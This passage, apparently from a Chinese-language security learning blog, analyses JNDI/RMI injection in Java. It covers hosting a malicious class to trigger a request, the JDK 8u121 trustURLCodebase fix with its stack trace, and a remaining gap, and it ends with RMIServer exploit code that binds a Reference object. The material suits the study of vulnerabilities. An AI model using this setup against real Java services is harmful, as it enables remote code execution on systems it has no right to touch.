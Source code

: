 将恶意类放入`http://127.0.0.1:8000/`，运行 JNDIRMIClient，成功触发 DNS 请求，如下-->

![alt text](image-48.png)

简单跟一下，其中仍有一处 RMI 的反序列化漏洞-->

![alt text](image-376.png)

![alt text](image-377.png)

这里其实客户端就已经与服务端通信了，调用服务端的 getReference 方法，拿到了 Reference 对象，熟悉的场景，当然也存在反序列化漏洞，这里不再赘述。

![alt text](image-378.png)

再放一张 Sink 的图，如上，注入部分结束。

### 修复

代码不变，将 JDK 版本升级到 8u121，再次运行 JNDIRMIClient 结果出现如下报错-->

```shell
Exception in thread "main" javax.naming.ConfigurationException: The object factory is untrusted. Set the system property 'com.sun.jndi.rmi.object.trustURLCodebase' to 'true'.
	at com.sun.jndi.rmi.registry.RegistryContext.decodeObject(RegistryContext.java:495)
	at com.sun.jndi.rmi.registry.RegistryContext.lookup(RegistryContext.java:138)
	at com.sun.jndi.toolkit.url.GenericURLContext.lookup(GenericURLContext.java:205)
	at javax.naming.InitialContext.lookup(InitialContext.java:417)
	at rmi.JNDIRMIClient.main(JNDIRMIClient.java:11)
```

跟一下报错，显然是 JDK 官方做出了修复，在进入`NamingManager.getObjectInstance(var3, var2, this, this.environment);`这行代码之前加了一个判断，如下-->

![alt text](image-383.png)

trustURLCodebase 变量的值在 JDK 8u121 版本之后默认值为 false，即默认情况下，不允许 Applications 加载不信任的远程类。但它只是在 RegistryContext 类里对`com.sun.jndi.rmi.object.trustURLCodebase`这个属性做了校验，但真正进行远程类加载的的`NamingManager.getObjectInstance(var3, var2, this, this.environment);`实际上没有做限制，算是一个隐患。

### 补充

难道 Reference 类的第二个构造函数没有风险吗？其实也能去打一次 RMI 的反序列化漏洞，给出利用代码如下：

RMIServer-->

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RMIServer {
    public static void main(String[] args) throws Exception{
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference reference = new Reference(null, new StringRefAddr("URL", "rmi://localhost:9999/xxx"));
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("referenceWrapper",referenceWrapper);
    }
}
```
